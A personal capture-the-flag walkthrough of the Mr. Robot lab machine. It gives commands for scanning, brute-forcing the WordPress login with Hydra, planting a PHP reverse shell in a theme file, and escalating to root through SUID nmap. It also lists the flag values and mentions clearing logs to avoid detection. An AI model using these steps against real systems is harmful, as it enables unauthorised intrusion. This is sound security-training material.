 # Personal Notes - Mr. Robot Pentest Project

## Overview

This document captures all relevant notes, thoughts, and observations made during the **Mr. Robot Pentest Project**, simulating a black-box external penetration test. The goal was to exploit vulnerabilities in the target system (WordPress-based site running on Apache) and escalate privileges to gain full system control. These notes are part of my methodology and learning process, helping me improve my offensive security skills.

---

## Objectives

1. **External Penetration Test**: Conduct a simulated attack to compromise the web server.
2. **Privilege Escalation**: From initial access (www-data) to privileged access (root).
3. **Capture Flags**: Collect flags placed on the system as part of the challenge.

---

## Network Setup

- **Attacker**: Kali Linux (192.168.254.130)
- **Target**: Mr. Robot (192.168.254.133)
- **Network Mode**: Bridged mode to ensure machines are in the same network.

---

## Enumeration Phase

The enumeration phase is crucial to understanding the target system. The following tools and techniques were used to gather information.

### Nmap Scan

A thorough Nmap scan was conducted to identify open ports, services, and vulnerabilities:

```bash
nmap -sS -A -p- 192.168.254.133
```

**Results:**

- Open port: 80 (Apache HTTPD)
- WordPress site identified at the root (/)

### Web Directory Enumeration (Gobuster)

Gobuster was used to identify hidden files or directories that may provide further attack vectors.

```bash
gobuster dir -u http://192.168.254.133 -w /usr/share/wordlists/dirb/common.txt
```

**Results:**

- Discovered /wp-login.php, /license.txt, /robots.txt

**Insight:** WordPress login page accessible, which is a potential target for brute force.

---

## Exploitation Phase

### WordPress Login Brute Force Attack (Hydra)

Since the WordPress login page was discovered during enumeration, a brute force attack was conducted using Hydra with a common password list (rockyou.txt).

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.254.133 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:S=Dashboard"
```

**Outcome:**

- Cracked credentials: `admin:welcome`
- Logged into the WordPress Dashboard, gaining administrator access.

### Web Shell Upload

Once inside WordPress, I exploited the 404.php template of the Twenty Fifteen theme to upload a PHP reverse shell.

- Modified `404.php` to include reverse shell code from PentestMonkey's PHP Reverse Shell.
- Listener was set up on Kali Linux:

```bash
nc -lvnp 4444
```

- Triggered the shell by navigating to:

```bash
http://192.168.254.133/wp-content/themes/twentyfifteen/404.php
```

**Result:**

- Successfully received a reverse shell with user `www-data`.

---

## Privilege Escalation Phase

### From www-data to robot

While exploring the filesystem, I found a file called `password.raw-md5` in the `/home/robot` directory. This file appeared to contain an MD5 hash that might represent the user's password.

- Cracked the MD5 hash using an online tool like CrackStation.
- The password for `robot` was cracked: `robot1234`
- Logged in as `robot` using the cracked password.

### From robot to root

After gaining access as `robot`, I searched for SUID binaries, which could potentially allow privilege escalation. Used the following command:

```bash
find / -perm -4000 2>/dev/null
```

- Discovered the `nmap` binary with the SUID bit set: `/usr/local/bin/nmap`
- Ran `nmap` with the `--interactive` flag to spawn a shell with root privileges:

```bash
nmap --interactive
!sh
```

**Result:**

- Gained full root access to the system.

---

## Flag Capture

Once root access was achieved, I captured all three flags that were part of the challenge.

- `flag1.txt`: `073403c8a58a1f80d943455fb30724b9`
- `flag2.txt`: `822c73956184f694993bede3eb39f959`
- `root-flag.txt`: `04787ddef27c3dee1ee161b21670b4e4`

---

## Post-Exploitation & Clean-Up

Once the flags were captured, I ensured that all traces of my actions were wiped from the system to avoid leaving any backdoors or logs. This step is vital in a real-world scenario to prevent detection.

---

## Lessons Learned

- **Reconnaissance**: Thorough enumeration is critical. Identifying misconfigurations and weak points early on can accelerate exploitation.
- **WordPress Weaknesses**: WordPress sites with weak or default credentials are an easy target for brute force attacks. Regular password hygiene and account lockout policies are necessary to mitigate this.
- **Privilege Escalation**: Always check for SUID binaries and other potential escalation vectors after gaining initial access.
- **Web Shells**: Modifying web templates, such as `404.php`, is an effective way to upload shells when the site is misconfigured.

---

## Areas for Improvement

- **Faster Brute Force**: In the future, I will consider using more optimized wordlists or tools like Burp Suite to speed up the process.
- **Detection Evasion**: I will practice more advanced evasion techniques such as time-based shell creation, avoiding obvious file names, and clearing logs more effectively.

---

## Conclusion

This pentest was an excellent opportunity to practice full-chain attack techniques—from web exploitation to internal privilege escalation. The target system had multiple vulnerabilities, including weak credentials and misconfigured WordPress themes, which were leveraged to gain full root access. Moving forward, I plan to document more specific countermeasures for each vulnerability and integrate them into my overall security improvement strategies.

